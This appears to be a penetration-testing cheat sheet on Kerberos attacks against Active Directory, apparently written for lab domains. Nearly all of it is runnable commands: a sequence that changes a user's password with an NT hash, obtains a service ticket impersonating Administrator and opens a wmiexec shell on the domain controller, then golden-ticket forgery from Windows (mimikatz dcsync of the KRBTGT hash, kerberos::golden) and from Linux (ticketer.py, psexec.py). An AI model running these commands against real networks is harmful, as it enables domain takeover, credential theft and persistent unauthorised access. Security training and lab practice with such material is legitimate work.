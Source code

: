 Get ticket session key so KDC can decrypt TGT

```bash
describeTicket.py beth.richards.ccache | grep 'Ticket Session Key'
```

Change user's password

```bash
changepasswd.py ZENCORP.LOCAL/john.doe@10.129.205.35 -hashes :de3d16603d7ded97bb47cd6641b1a392 -newhash :7c3d8b8b135c7d574e423dcd826cab58
```

Request TGS

```bash
KRB5CCNAME=beth.richards.ccache getST.py -u2u -impersonate Administrator -spn TERMSRV/DC01.INLANEFREIGHT.LOCAL -no-pass ZENCORP.LOCAL/john.doe -dc-ip 10.129.205.35
```

Acces the DC

```bash
KRB5CCNAME=Administrator@TERMSRV_DC01.ZENCORP.LOCAL@ZENCORP.LOCAL.ccache wmiexec.py DC01.ZENCORP.LOCAL -k -no-pass
```

### <mark style="color:yellow;">Golden ticket from Windows</mark>

To forge a golden ticket you need: Domain name, Domain SID, Username to impersonate, KRBTGT's hash.&#x20;

Get SID and get KRBTGT hash with mimikatz

```powershell
# SID
Get-DomainSID

# Get KRBTGT hash
lsadump::dcsync /user:krbtgt /domain:zencorp.local
```

Then forge a golden ticket

```powershell
kerberos::golden /domain:zencorp.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:810d754e118439bab1e1d13216150299 /ptt
```

Connect to DC01 using WinRM

```powershell
Enter-PSSession dc01
```

### <mark style="color:yellow;">Golden ticket from Linux</mark>

```bash
# Get SID
lookupsid.py zencorp.local/zen@dc01.zencorp.local -domain-sids

# Craft golden ticket
ticketer.py -nthash 810d754e118439bab1e1d13216150299 -domain-sid S-1-5-21-2974783224-3764228556-2640795941 -domain zencorp.local Administrator

# Get access
export KRB5CCNAME=./Administrator.ccache
psexec.py -k -no-pass dc01.zencorp.local
```
